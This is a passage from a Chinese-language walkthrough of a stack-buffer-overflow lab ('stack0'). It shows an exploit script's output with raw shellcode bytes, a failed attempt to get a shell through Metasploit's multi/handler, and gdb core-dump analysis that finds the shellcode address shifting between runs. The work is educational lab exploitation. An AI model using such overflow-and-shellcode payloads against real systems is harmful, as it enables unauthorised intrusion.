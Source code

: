 重新运行：

```
python exploit.py
----------------output:-------------------
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�a���������H1����H���H�Sݧ����H1X'H-����9ȋR���W����'������
                                 V�ͮ���Mŷ�ĭ�
                                           ��?�M        o����(MĂ��]o�
you have changed the 'modified' variable
Segmentation fault (core dumped)
------------------end---------------------

```

本机用相同的payload+multi/handler执行exploit无法获得shell

分析core

```
gdb -q -c core
-----------------output:--------------------
[New LWP 24746]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xffd26180 in ?? ()
-------------------end----------------------

x/10x $esp
----------output:-------------
0xffa14160:     0x90909090      0x90909090      0xc9314890      0xf6e98148
0xffa14170:     0x48ffffff      0xffef058d      0xbb48ffff      0x9ca7dd53
0xffa14180:     0x05be89a2      0x48583148
-------------end--------------

```

从中发现这时shellcode的内存地址又变成了0xffa14160(上面[esp]后紧接的9个90证明了这点),不再是0xffd26180,可以看出kali的内存中没有固定的shellcode地址,每次shellcode地址都会变化，这应该是由于kali的内核版本高，安全性好造成的